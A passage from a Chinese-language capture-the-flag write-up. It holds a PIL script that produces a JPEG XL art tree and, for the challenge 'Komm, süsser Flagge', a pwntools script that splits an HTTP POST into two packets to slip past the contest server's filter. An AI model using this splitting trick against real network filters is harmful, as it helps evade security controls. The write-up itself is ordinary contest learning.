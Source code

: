 当然，我后来又跟着官方 WP 搞了一下 JPEG XL 的实现，正好 49 bytes ，下面是脚本

```python
from PIL import Image

img1 = Image.open("image.png")

b = []

c = [img1.getpixel((0,0))]

for i in range(1023):
    if(img1.getpixel((i,0)) != img1.getpixel((i+1,0))):
        b.append(i)
        c.append(img1.getpixel((i+1,0)))

s = f"""if x > {b[1]}
  if c > 1
    - Set {c[2][2]}
    if c > 0
      - Set {c[2][1]}
      - Set {c[2][0]}
  if x > {b[0]}
    if c > 1
      - Set {c[1][2]}
      if c > 0
        - Set {c[1][1]}
        - Set {c[1][0]}
    if c > 1
      - Set {c[0][2]}
      if c > 0
        - Set {c[0][1]}
        - Set {c[0][0]}"""

print(s)
```

## Komm, süsser Flagge

这道题前两问迷迷糊糊就解决了，主要就是 POST 得从中间分开发两个包，然后第二问又正好可以用第一问的 payload 解决，第三问理应要通过自己写一个包实现，但计网确实不太熟，就没做了

```python
from pwn import *
from time import *

p = remote("202.38.93.111", 18081)

p.send(b"PO")

sleep(1) # 我也不知道为啥得延时一会儿才能成功

p.send(b"""ST / HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 100
Content-Type: application/x-www-form-urlencoded

xxxxxxxxx""".replace(b"\n",b"\r\n"))

# xxx 换成自己的 token ，实在不行可以先 nc -lvvp 80 后再 curl -X POST -d " 你自己的 token " 127.0.0.1

p.interactive()
```
